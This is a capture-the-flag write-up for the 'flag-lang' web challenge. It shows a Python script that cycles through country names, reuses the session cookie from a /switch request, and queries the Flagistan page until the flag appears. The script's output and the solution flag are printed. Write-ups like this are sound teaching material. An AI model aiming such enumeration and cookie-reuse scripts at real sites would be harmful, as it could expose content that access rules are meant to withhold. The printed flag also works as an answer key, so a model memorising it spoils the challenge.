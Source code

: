 # flag-lang

## Overview:

Category: Web

## Description

Do you speak the language of the flags?

flaglang.chall.lac.tf

## Approach

Let's take a gander at the website. 

First thing we see when we visit the website is two flags being displayed with drop down menus.

Taking a look inside the drop down menus we see a list of countries with a odd name at the top `Flagistan`.

Which, I hate to spoil for you, is not a real country. And judging by the name this has something to do with our flag.

Messing around a little bit I came across this:

![Embargo Message](pictures/embargo.png)

And from this I took a shot in the dark and thought, we'll maybe one of these countries doesn't have an embargo.

## Attack

Now to test every country -> embargo, i'm going to need a few things.

First order of business was getting a list of the countries.

Opening the source code for the site, I found this interesting JSON data under the name countries:

![Country List](pictures/countries.png)

Using a little bit of javascript in the console I was able to extract a list:

![Javascript](pictures/javascript.png)

Then using some python I cleaned it up piped the output to this [file](countries.txt).
```c
import json

with open('countries.txt') as file:
    
    countries = json.load(file)
    format = "\n".join(countries)
    print(format)
```

Boom, now we have a file that has each country we need to try.

Now before we write our python script to test each country lets first view what the requests are looking like.

Here is a pair of requests that relate to switching what country you are, and what country you are viewing.

![Switch Country](pictures/switch-to.png)

Something very important to notice here is that when you are switching to another country, a cookie is being set.

This is important because when you query to view flagistan as a country, you need that cookie in-order to tell what country you are.

![View Flagistan](pictures/view-flagistan.png)

Knowing this let's construct a python script that will allows us to view flagistan as every country and see if there are any that don't have the "embargo" and rather the flag.

```c
import requests

url = "https://flaglang.chall.lac.tf"

with open("countries.txt", "r") as countries:
    for country in countries:
    
        #switching to country, [:-1] to get rid of "\n"
        print(url + "/switch?to=" + country[:-1])
        response = requests.get(url + "/switch?to=" + country[:-1])

        #if successful view as flagistan
        if(response.status_code == 200):
            print(url + "/view?country=Flagistan")
            #cookies are needed to know what country we are viewing as
            view_flagistan = requests.get(url + "/view?country=Flagistan", cookies=response.cookies)
            if "lactf" in view_flagistan.text:
                print(view_flagistan.text)
                exit()
```

Running the script:
```c
$ python script.py    
https://flaglang.chall.lac.tf/switch?to=Flagistan
https://flaglang.chall.lac.tf/switch?to=Afghanistan
https://flaglang.chall.lac.tf/view?country=Flagistan
{"msg":"lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}","iso":"FL"}
```

Now unfortunately the challenge had been constructed incorrectly and ended up leaking the flag unintendedly.

Either way, this solution was intended to view `Flagistan` as `Norway`, in which we were supposed to recieve the flag then.

## Flag

lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}
